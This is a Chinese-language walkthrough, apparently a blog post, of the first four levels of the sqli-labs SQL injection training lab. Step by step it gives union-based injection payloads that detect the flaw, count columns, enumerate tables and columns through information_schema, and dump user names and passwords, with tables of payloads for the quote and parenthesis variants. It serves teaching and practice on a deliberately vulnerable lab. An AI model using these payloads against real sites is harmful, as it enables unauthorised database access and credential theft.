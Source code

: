 ﻿@[TOC](sql-labs)

#  什么是sql-labs？
>SQL 注入（SQL Injection） 是发生在 Web 程序中数据库层的安全漏洞，是网站存在最多也是最简单的漏洞。 主要原因是程序对用户输入数据的合法性没有判断和处理，导致攻击者可以在 Web 应用程序中事先定义好的 SQL 语句中添加额外的 SQL 语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步获取到数据信息
>推荐一个视频[【转载】SQL注入、SSTI&Docker逃逸 HTB CTF -GoodGame-哔哩哔哩](https://b23.tv/UY1Cx5T)
# Pass-01，02
这两个知识点，都没差...
网上查询得Pass-01基于单引号的SQL注入，Pass-02基于整数的注入
## 判断是否存在注入
用get传值id=1，随后能看到网页出现变化
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0be8cab3d894317a423ebf5fed7be66.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)用get传值id=2，
![在这里插入图片描述](https://img-blog.csdnimg.cn/6b302c32bbe249ab8090f4f16d346e5c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
用get传值id=15之后，界面异常。
![在这里插入图片描述](https://img-blog.csdnimg.cn/87cc97841d6f40138d971a516c458367.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
有没有可能把?id=1,这个传参给它拼接到SQL语句中？并且被当做SQL代码进行执行？
尝试，?id=1 and 1=2...无变化。
![在这里插入图片描述](https://img-blog.csdnimg.cn/7e66849c9be04157a6bea7f1d092cf7c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
**Pass-02的知识从这开始**，尝试闭合?id=1'and 1=1-- za（后跟的字母随便...）
![在这里插入图片描述](https://img-blog.csdnimg.cn/909b90f69cf948e0bdfc68ea9427394d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
注意空格（格式），否则会报错，如图
![在这里插入图片描述](https://img-blog.csdnimg.cn/d342f1426f7e4609b23a73dfb0e5505d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
?id=1'and 1=2-- zaa，页面异常（可能存在SQL注入）
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac819ee9153a4103b10c547a369f7d59.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
## 判断字段数
使用 order by 查询所有字段，从1开始直到4，发现3正常，但是4的页面异常（存在三个字段）
![在这里插入图片描述](https://img-blog.csdnimg.cn/cb700a391e0a4a9490bd13c751ef9270.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
## union select判断显错位（回显）
输入，?id=1'union select 1,2,3-- zaa，显示了前面的结果，
1,2,3:仅仅相当于占了三个位置（先前order by 查询为3），所以用什么表示均可。
![在这里插入图片描述](https://img-blog.csdnimg.cn/01f6df7124c54dcd8419d1481ed7e103.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
从而试着将id=1,改为id=15(因为页面没结果)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3aa9395838fc4775982dc299ac8594ea.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
**注意：有文章说，已知这里面只有三列，找每一列的位置，使用  ?id=0' union select 1,2,3 --+  （要注意的是此处的id值必须是0以下的数字，否则不能成功）**
##  库名和登录用户名
将2的位置换为**database()**，显示当前页面数据库库名：security。
![在这里插入图片描述](https://img-blog.csdnimg.cn/74dddb310ea249d08af03d7d6c5103e1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
查询当前数据库的库名和当前的登录用户名，使用  ?id=0' union select 1,database(),user() -- zaa
user()顶替3的位置，为当前的登录用户名。
![在这里插入图片描述](https://img-blog.csdnimg.cn/3898503fecb0432496795b1c730509b5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)

## 判断表名
**?id=15'union select 1,table_name,3 from information_schema.tables where table_schema='security'-- zaa**
| table_name：代表表名 |  
|--|
|information_schema藏有自带的数据库  | 
| table_schema字面指库名 |  |
![在这里插入图片描述](https://img-blog.csdnimg.cn/58955874ff67410ab44170134c3f9def.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
**第二位（则第一位可用limit 0,1表示）**
?id=15'union select 1,table_name,3 from information_schema.tables where table_schema='security' **limit 1,1**-- zaa
![在这里插入图片描述](https://img-blog.csdnimg.cn/11562a9f3c9c4d17bed2417ccfd0dd93.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
**第三位（limit 1,1中的前面的1改为2）**
即...?id=15'union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 2,1-- zaa
![在这里插入图片描述](https://img-blog.csdnimg.cn/92f2deb6361f437b8dfb76f7299c425a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
等...
## 判断列名
?id=15'union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='emails'-- zaa
**emails：可根据表进行替换**
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e957ff1501a4e3cb5ad468e02c95fc0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
例：
?id=15'union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='referers'-- zaa
![在这里插入图片描述](https://img-blog.csdnimg.cn/207f8cece1464c7e8e6922607c3d7709.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
## 判断数据
?id=15'union select 1,id,3 from emails-- zaa
![在这里插入图片描述](https://img-blog.csdnimg.cn/d737aeeace354ac5b88f44b6c6ebee46.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
与上同，**emails：可根据表进行替换**
## 快法（要注意的是此处的id值必须是0以下的数字，否则不能成功）
将2的位置换为**database()**，显库名：security。
[参考文章...](https://blog.csdn.net/x647498949/article/details/122628708?ops_request_misc=&request_id=&biz_id=102&utm_term=sqli%E7%AC%AC%E4%B8%80%E5%85%B3&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-7-122628708.nonecase&spm=1018.2226.3001.4187)
### 表名
数据库库名后再爆破数据库，使用  ?id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+  
![在这里插入图片描述](https://img-blog.csdnimg.cn/7791b331f93149b2870209c872da7dc3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
表名一步到位...
### 列名
?id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and  table_name='**emails**'),3 --+
**emails：可根据表进行替换**
![在这里插入图片描述](https://img-blog.csdnimg.cn/7a2a6bf46a5a483196e1432e99b9b5a3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
### 数据名
格式?id=0' union select 1,(select group_concat(concat_ws(0x7e,表名对应的列名,表名对应的列名)) from 表名),3 --+
0x7e应该是个站位的...，其位置也可为表名对应的列名，观察02，03
#### 01
?id=0' union select 1,(select group_concat(concat_ws(0x7e,id,email_id)) from emails),3 --+ 进行爆破，得到以下内容。
![在这里插入图片描述](https://img-blog.csdnimg.cn/94c97e83fce94c4096270149abcbe811.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
#### 02
 ?id=0' union select 1,(select group_concat(concat_ws(**0x7e**,username,password)) from users),3 --+  进行爆破，得到以下内容。
![在这里插入图片描述](https://img-blog.csdnimg.cn/25d6fbb527544c77b4c58a2a78484379.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
#### 03
?id=0' union select 1,(select group_concat(concat_ws(**id**,username,password)) from users),3 --+  进行爆破，得到以下内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/45be3f4169154987bd685c988a57bffb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
# Pass-03
查看源码...发现被框了。不会被当做代码，从而使代码失效。![在这里插入图片描述](https://img-blog.csdnimg.cn/fe92e2ded3c5470abc0a76d92073df24.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
从而'后加一个)
| 判断是否存在注入  | ?id=1')and 1=1-- za |
|--|--|
| 判断字段数 | ?id=1')order by 1-- za |
|union select判断显错位  | ?id=1')union select 1,2,3-- zaa |
| 判断表名 | ?id=15')union select 1,table_name,3 from information_schema.tables where table_schema='security'-- zaa |
| 判断列名 | ?id=15')union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='emails'-- zaa |
| 判断数据名 | ?id=15')union select 1,id,3 from emails-- zaa |
# Pass-04
由图与03相比单引变成了双引号...
![在这里插入图片描述](https://img-blog.csdnimg.cn/d8068ae6f3bb4a4c89a036a0d67b0a72.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5LuU57G9Xw==,size_20,color_FFFFFF,t_70,g_se,x_16)
| 判断是否存在注入  | ?id=1")and 1=1-- za |
|--|--|
| 判断字段数 | ?id=1")order by 1-- za |
|union select判断显错位  | ?id=1")union select 1,2,3-- zaa |
| 判断表名 | ?id=15")union select 1,table_name,3 from information_schema.tables where table_schema='security'-- zaa |
| 判断列名 | ?id=15")union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='emails'-- zaa |
| 判断数据名 | ?id=15")union select 1,id,3 from emails-- zaa |
